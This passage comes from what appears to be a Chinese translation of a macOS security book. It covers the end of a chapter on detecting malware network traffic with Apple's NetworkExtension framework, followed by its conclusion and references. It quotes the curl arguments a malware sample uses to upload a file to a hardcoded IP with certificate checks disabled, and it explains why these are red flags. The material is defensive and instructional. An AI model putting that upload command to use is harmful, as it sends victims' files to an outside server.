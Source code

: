 如你所见，它能够捕获流量，提取远程端点（54.254.189.27:443），并正确识别负责的进程为 curl。

这个负责的进程使得检测变得更加复杂，因为 curl 是一个合法的 macOS 平台二进制文件，而不是恶意软件的不可信组件。我们该怎么做呢？好吧，使用第一章中介绍的方法，我们可以提取恶意软件执行 curl 时使用的参数：

```
-k -F "file=`<some file>`" https://54.254.189.27/api/v1/file/upload
```

这些参数应该引起警惕，因为尽管合法软件通常使用 curl 下载文件，但它很少用于上传文件，尤其是上传到硬编码的 IP 地址。此外，-k 参数告诉 curl 以不安全模式运行，这意味着服务器的 SSL 证书将不会被验证。再次强调，这是一个警告信号，因为合法软件利用 curl 时通常不会以这种不安全的模式运行。

你也可以确定该进程的父进程是一个 Python 脚本，并收集该脚本进行手动分析，这将很快揭示它的恶意性质。

### 结论

本章重点介绍了通过利用苹果强大的*NetworkExtension*框架来构建实时、基于主机的网络监控工具所需的概念。由于绝大多数 Mac 恶意软件都包含网络功能，因此本章中描述的技术对于任何恶意软件检测系统都是必不可少的。未经授权的网络活动作为许多安全工具和启发式检测方法的关键指示器，为检测针对 macOS 的已知和未知威胁提供了宝贵的方式。

### 注释

1.    1.  “Smooth Operator，”GCHQ，2023 年 6 月 29 日，[*https://<wbr>www<wbr>.ncsc<wbr>.gov<wbr>.uk<wbr>/static<wbr>-assets<wbr>/documents<wbr>/malware<wbr>-analysis<wbr>-reports<wbr>/smooth<wbr>-operator<wbr>/NCSC<wbr>_MAR<wbr>-Smooth<wbr>-Operator<wbr>.pdf*](https://www.ncsc.gov.uk/static-assets/documents/malware-analysis-reports/smooth-operator/NCSC_MAR-Smooth-Operator.pdf).

1.    2.  Patrick Wardle，"哪里有爱，哪里就有……恶意软件？" Objective-See，2023 年 2 月 24 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x72<wbr>.html*](https://objective-see.org/blog/blog_0x72.html).

1.    3.  “Crowdstrike Endpoint Security Detection re 3CX 桌面应用程序，”3CX 论坛，2023 年 3 月 29 日，[*https://<wbr>www<wbr>.3cx<wbr>.com<wbr>/community<wbr>/threads<wbr>/crowdstrike<wbr>-endpoint<wbr>-security<wbr>-detection<wbr>-re<wbr>-3cx<wbr>-desktop<wbr>-app<wbr>.119934<wbr>/*](https://www.3cx.com/community/threads/crowdstrike-endpoint-security-detection-re-3cx-desktop-app.119934/).

1.    4.  有关系统扩展的详细信息，请参见 Will Yu 的文章，“Mac 系统扩展用于威胁检测：第三部分，”*Elastic*，2020 年 2 月 19 日，[*https://<wbr>www<wbr>.elastic<wbr>.co<wbr>/blog<wbr>/mac<wbr>-system<wbr>-extensions<wbr>-for<wbr>-threat<wbr>-detection<wbr>-part<wbr>-3*](https://www.elastic.co/blog/mac-system-extensions-for-threat-detection-part-3).

1.    5.  “网络扩展，”苹果开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/networkextension<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/networkextension?language=objc).

1.    6.  “安装系统扩展和驱动程序，”苹果开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/systemextensions<wbr>/installing<wbr>-system<wbr>-extensions<wbr>-and<wbr>-drivers<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/systemextensions/installing-system-extensions-and-drivers?language=objc).

1.    7.  另请参见[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/products<wbr>/utilities<wbr>.html#DNSMonitor*](https://objective-see.org/products/utilities.html#DNSMonitor).

1.    8.  “activationRequestForExtension:queue:，”Apple 开发者文档，[*https://<wbr>developer<wbr>.apple<wbr>.com<wbr>/documentation<wbr>/systemextensions<wbr>/ossystemextensionrequest<wbr>/activationrequest(forextensionwithidentifier:queue:)<wbr>?language<wbr>=objc*](https://developer.apple.com/documentation/systemextensions/ossystemextensionrequest/activationrequest(forextensionwithidentifier:queue:)?language=objc)。
